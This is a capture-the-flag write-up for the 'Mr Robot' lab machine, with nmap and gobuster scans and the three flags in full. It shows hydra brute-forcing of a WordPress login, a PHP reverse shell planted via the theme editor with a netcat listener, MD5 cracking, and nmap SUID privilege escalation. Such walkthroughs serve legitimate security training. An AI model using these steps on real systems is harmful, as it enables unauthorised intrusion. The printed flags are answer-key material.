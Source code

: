 # Mr Robot CTF

**Title:** Mr Robot<br>
**IP Address:** 10.10.221.177<br>

## Scans

### NMAP Scan
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-18 21:41 PST
Nmap scan report for 10.10.221.177 (10.10.221.177)
Host is up (0.27s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.49 seconds

```

### GoBuster Scan
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.221.177
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/18 21:55:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.221.177/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.221.177/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]    
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://10.10.221.177/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.221.177/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]       
/video                (Status: 301) [Size: 235] [--> http://10.10.221.177/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.221.177/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/atom/]  
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.221.177/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.221.177/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.221.177/audio/]     
/wp-login             (Status: 200) [Size: 2613]                                      
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://10.10.221.177/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.221.177/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.221.177/js/]         
/Image                (Status: 301) [Size: 0] [--> http://10.10.221.177/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://10.10.221.177/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]
```

## Flags

### Flag 1
1. After the GoBuster scan, `/robots` directory was found. It shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Visting the page on the directory `/key-1-of-3.txt` gives the first flag:
  ```
  073403c8a58a1f80d943455fb30724b9
  ```


### Flag 2
1. After the GoBuster scan, a `/login` page and `/robots` directory was found. The `/robots` directory shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Download `fsocity.dic` by going to the directory `/fsocity.dic` and saving the raw page.
3. Brute force username and password on the `/login` page using hydra.
 
 ***For username***
  ```
  $ hydra -L fsocity.dic -p any 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

  [80][http-post-form] host: 10.10.221.177   login: Elliot   password: any
  ```
  ***For password***
  ```
  $ hydra -l Elliot -P fsocity.dic 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
  

  ```
  ***Credentials***: `Elliot:ER28-0652`

4. Start a `netcat` listener. Use a port that is usually trusted by firewalls.
  ```
  $ rlwrap nc -lvnp 1520
  ```
5. Use a PHP reverse shell and set the corresponding listener IP address and port.
6. In the admin Dashboard, go to Appearance > Editor, update a PHP file with the code from the PHP reverse shell (e.g. `archive.php`).
7. Load the edited PHP file (e.g. if using `archive.php`, load the URL `http://10.10.221.177/wp-content/themes/twentyfifteen/archive.php`). Reverse shell must now be activated.
8. Go to `/home/robot` directory and open `password.raw-md5` file.
  ```
  robot:c3fcd3d76192e4007dfb496cca67e13b
  ```
9. Decrypt the MD5 hash.
  ```
  Using CrackStation (crackstation.net)

                Hash    	            Type	        Result
  c3fcd3d76192e4007dfb496cca67e13b  	md5	    abcdefghijklmnopqrstuvwxyz
  ```
10. Spawn TTY shell in the target machine using Python.
  ```
  $ python -c 'import pty; pty.spawn("/bin/sh")'
  ```
11. Login to `robot` account using `su robot` with the password: `abcdefghijklmnopqrstuvwxyz`.
 
 ***Credentials:*** `robot:abcdefghijklmnopqrstuvwxyz`

12. Go to `/home/robot` directory and open `key-2-of-3.txt` file.
  ```
  822c73956184f694993bede3eb39f959
  ```


### Flag 3
1. While using the account `robot`. Gain priveleged access using SUID binary from `nmap`.

  Note: This was found by locating files with SUID binary bit turned on using the command:
  ```
  $ find / -perm +6000 2> /dev/null | grep '/bin/'
  ```
2. Spawn a shell using NMAP (refer to instructions at gtfobins).
  ```
  $ nmap --interactive
  nmap> !sh
  ```
3. Now, as the `root` user, `/root` directory is now accessible. The file `key-3-of-3.txt` is located in the same directory and can be read.
  ```
  04787ddef27c3dee1ee161b21670b4e4
  ```
